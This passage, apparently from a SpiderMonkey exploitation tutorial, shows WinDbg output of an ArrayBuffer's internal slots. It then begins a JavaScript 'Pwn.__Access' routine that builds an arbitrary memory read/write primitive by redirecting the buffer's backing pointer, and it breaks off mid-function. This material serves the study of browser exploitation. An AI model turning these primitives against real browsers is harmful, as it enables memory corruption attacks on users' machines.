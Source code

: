 ```text
0:005> g
Breakpoint 0 hit
js!js::math_atan2:
00007ff7`65362ac0 4056            push    rsi

0:000> ?? vp[2]
union JS::Value
   +0x000 asBits_          : 0xfffe0207`ba5980a0
   +0x000 asDouble_        : -1.#QNAN 
   +0x000 s_               : JS::Value::<unnamed-type-s_>

0:000> dt js!js::ArrayBufferObject 0x207`ba5980a0
   +0x000 group_           : js::GCPtr<js::ObjectGroup *>
   +0x008 shapeOrExpando_  : 0x00000207`ba5b19e8 Void
   +0x010 slots_           : (null) 
   +0x018 elements_        : 0x00007ff7`6597d2e8 js::HeapSlot

0:000> dqs 0x207`ba5980a0
00000207`ba5980a0  00000207`ba58a8b0
00000207`ba5980a8  00000207`ba5b19e8
00000207`ba5980b0  00000000`00000000
00000207`ba5980b8  00007ff7`6597d2e8 js!emptyElementsHeader+0x10
00000207`ba5980c0  00000103`dd2cc070 <- DATA_SLOT
00000207`ba5980c8  fff88000`00000001 <- BYTE_LENGTH_SLOT
00000207`ba5980d0  fffa0000`00000000 <- FIRST_VIEW_SLOT
00000207`ba5980d8  fff88000`00000000 <- FLAGS_SLOT
00000207`ba5980e0  fffe4d4d`4d4d4d00 <- our backing buffer

0:000> ? 00000103`dd2cc070 << 1
Evaluate expression: 2232214454496 = 00000207`ba5980e0
```

A consequence of the above is that you cannot read from an odd address as the last bit gets lost. To workaround it, if we encounter an odd address we read from the byte before and we read an extra byte. Easy.

```JavaScript
Pwn.__Access = function (Addr, LengthOrValues) {
    if(typeof Addr == 'string') {
        Addr = new Int64(Addr);
    }

    const IsRead = typeof LengthOrValues == 'number';
    let Length = LengthOrValues;
    if(!IsRead) {
        Length = LengthOrValues.length;
    }

    let OddOffset = 0;
    if(Addr.byteAt(0) & 0x1) {
        Length += 1;
        OddOffset = 1;
    }

    if(AB1.byteLength < Length) {
        throw 'Error';
    }

    //
    // Fix base address
    //

    Addr = RShift1(Addr);
    const Biggie = new Uint8Array(AB1);
```